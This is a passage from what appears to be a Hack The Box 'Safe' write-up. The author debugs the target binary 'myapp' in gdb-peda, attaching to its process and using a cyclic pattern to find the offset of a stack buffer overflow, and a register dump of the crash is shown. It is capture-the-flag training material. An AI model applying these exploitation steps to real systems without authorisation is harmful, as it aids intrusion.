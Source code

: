 ```bash
gdb-peda$
```

Trying something like `set follow-fork-mode parent` because myapp forks into a child process ``/usr/bin/dash`` and ``/usr/bin/uptime`` also didn't work.

I ran myapp in a terminal, got it's pid and attached to gdb.

```bash
gdb-peda$ attach 105937
Attaching to program: /usr/bin/uptime, process 105937
warning: Build ID mismatch between current exec-file /usr/bin/uptime
and automatically determined exec-file /root/HTB/Safe/myapp
exec-file-mismatch handling is currently "ask"
Reading symbols from /root/HTB/Safe/myapp...
(No debugging symbols found in /root/HTB/Safe/myapp)
Reading symbols from /lib/x86_64-linux-gnu/libc.so.6...
Reading symbols from /usr/lib/debug/.build-id/ec/3a1edbb04c6c2376a0f382429383cb2dfc350e.debug...
Reading symbols from /lib64/ld-linux-x86-64.so.2...
Reading symbols from /usr/lib/debug/.build-id/32/438eb3b034da54caf58c7a65446639f7cfe274.debug...
gdb-peda$
```

## Finding the offset

```bash
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
```

And passed that to the terminal prompt myapp was running:

```bash
$ ./myapp
 18:56:41 up 23:30,  6 users,  load average: 0.03, 0.21, 0.26

What do you want me to echo back? AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
```

Then `continue` in `gdb`:

```bash
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7fd6a96d8f33 (<__GI___libc_write+19>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x8f62a0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x7fd6a97ab670 --> 0x0
RBP: 0x41414e4141384141 ('AA8AANAA')
RSP: 0x7fff8b8e6e78 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
RIP: 0x4011ac (<main+77>:       ret)
R8 : 0xc9
R9 : 0x0
R10: 0xfffffffffffff28e
R11: 0x246
```